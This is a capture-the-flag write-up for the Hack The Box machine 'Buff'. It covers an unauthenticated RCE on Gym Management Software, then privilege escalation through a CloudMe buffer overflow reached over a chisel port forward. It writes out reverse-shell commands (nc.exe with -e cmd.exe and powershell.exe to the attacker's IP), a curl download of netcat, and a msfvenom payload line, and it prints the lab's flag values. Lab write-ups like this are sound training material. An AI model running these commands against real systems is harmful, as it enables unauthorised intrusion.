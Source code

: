 # Buff

export IP=10.10.10.198

## Solution

I'll start with an nmap scan to verify if anything interesting pops-up <br>

cmd: nmap -sC -sV -Pn -oN nmap/initial $IP

```
8080/tcp open  http    Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

```

CMS: Gym Management Software 1.0 <br>

lets run a gobuster just to check if we can find something <br>

using searchsploit there is an entry to the actual version found in the page to perform a RCE unathed!!! <br>

Executing the exploit give us a shell in the server under the user: <b> buff\shaun </b> <br>

the shell is horrible, lets upgrade it by modifying the exploit to create a backdoor by listening on port 9191<br>

Since the machine does not have nc, lets get it... src: https://eternallybored.org/misc/netcat/ <br>

Now need to upload it to the machine... cmd: curl -O MY_IP:8000/nc.exe <br>

Spawn a reverse shell (already listening locally)... cmd: nc.exe MY_IP 9191 -e cmd.exe <br>

From what i could enumerate manually, the root account for mysql does not have any password !!! but i cannot launch it right away lets find it <br>

The mysql.exe is in "c:\xampp\mysql\bin" but it got stuck... <br>

By diving to the users desktop, there is a user.txt which is the flag <br>

```
cd c:\users\shaun\desktop
type user.txt

FLAG: e0095ae79b5cf39aaf79eeff9ce2f33a
```

One thing that i found (manually) laying around (Downloads) was an executable CloudMe_1112.exe dont know what this is but it was running... <br>

Now we need to find vectors for privesc to Administrator... but linpeas won't work here (since it is for linux systems DUH!) <br>

From its creator, there is a WINPEAS executable to privesc! awesome !! <br>

From winPEAS we can see that the machine is listening on port 3306 (mysql) and 8888 (dont know what) <br>

After some research (src: https://www.speedguide.net/port.php?port=8888) found that it is related to the CloudMe file that i've found before with the following statement:

```
An issue was discovered in CloudMe 1.11.0. An unauthenticated local attacker that can connect to the "CloudMe Sync" client application listening on 127.0.0.1 port 8888 can send a malicious payload causing a buffer overflow condition. This will result in code execution, as demonstrated by a TCP reverse shell, or a crash
```

Lets search it !! <br>

cmd: searchsploit cloudme

```
CloudMe 1.11.2 - Buffer Overflow (PoC)
```

One thing that will make it harder is the fact that the port 8888 is listening in 127.0.0.1 which does not contact with the outside <br>

Since the exploit is expected to run locally, we need to connect to the victim but need to forward the port to the port 8888. <br>

For this, i found a very interesting resource regarding multiple aspects of ethical hacking... <br>

src: https://oscp.infosecsanyam.in/ (the pivoting section)<br> 

I found that chisel had a cleaner and easier syntax so i went with chisel to do the pivoting on the ports.. <br>

Started chisel in server mode in my machine 

```
LOCAL: ./chisel server -p 8000 -reverse
REMOTE: .\chisel client 10.10.14.242:8000 R:8888:127.0.0.1:8888
```

Next i needed to generate the payload to be injected in the CloudMe app and did it as suggested in the exploit and started the nc on port 1414 (where i'll receive the reverse shell)

```
msfvenom -p windows/exec CMD="c:\users\shaun\tmp\nc.exe -e powershell.exe 10.10.14.242 1414" -b "\x00\x0a\x0d" -f py -v payload 

nc -lvvnp 1414
```

After that, and since chisel will redirect on the remote to the port 8888, i can execute the exploit  locally <br>

```
whoami
buff\administrator

cat c:\users\administrator\desktop\root.txt
FLAG: e07075765189a03636cf177fdbb80a0b
```





